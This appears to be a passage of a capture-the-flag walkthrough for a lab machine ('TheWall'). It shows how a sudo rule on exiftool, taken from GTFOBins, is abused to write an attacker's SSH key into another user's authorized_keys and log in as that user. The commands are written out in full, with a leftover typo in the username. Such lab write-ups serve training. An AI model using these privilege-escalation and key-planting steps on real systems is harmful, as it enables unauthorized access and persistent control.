




5.2 GTFOBins about "exiftool"
1. Go to https://gtfobins.github.io/gtfobins/exiftool.

2. On your Kali Linux machine create an “id_rsa.pub” key.
$ ssh-keygen -t rsaOutput:

3. On your Kali Machine get the “/home/kali/.ssh/id_rsa.pub” content.
$ cd /home/kali/.ssh
$ cat id_rsa.pub
Output:

4. On your victim's machine shell run the following command in order to create a “id_rsa.pub” file in “/tmp”.
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCTG3pyI0nYkN3FCgKj8dvhFJNnyhmOmP62YAussw4EysuBQlWyf9hyZbilE9NQC6lWrvkkdxbX+r9tQiNlu/AIqUsF9wumZ8oZKtDcmW5sNgdMHFh9gPTg9pNcuR8cUY0mnLsm1e/RMUTu75miMclqBd98ZOXMQ2LyCw909IOhsdAZoLx7+HeiNl2GWYVbGWLsArYC+j9AY6l/BX2HElDwe9SPXdyq2eoiqdh4VM0az3o3BBQq4vSwX/2IijrZ/gQId9XoIdH6woy/wQylMneuTq8DBuC+kOIR5vd7sTO2k7EKeaEv1S3VCyiPtqV2YCq5j8RWSIBMMgUHXRDxj4/iQpybxoIxx7FeANEU60Gns1JtwmI+UEMYlXIUm0GU8vIT4Yxwdans+ipYtRIAFsSJgGNcXrstf943Uk/pYYdYu+q5cex8qpvYJ9DTtDtGR4EYkGp2+mlROU1d0Wt9hz7Smltxv4opmGSdJlmN9gxkwEPXGIW1tm+qTV2jOkcaiEU= kali@kali" > /tmp/id_rsa.pub
5. As “exiftool” says copy the “id_rsa.pub” into the “authorized_keys” in order to be able to connect via SSH as “john” user. Run on the victim's machine the followng command.
www-data@TheWall:/$ sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub
6. Connect via SSH from your Kali Machine.
$ ssh johm@192.168.12.70 -i id_rsaOutput:
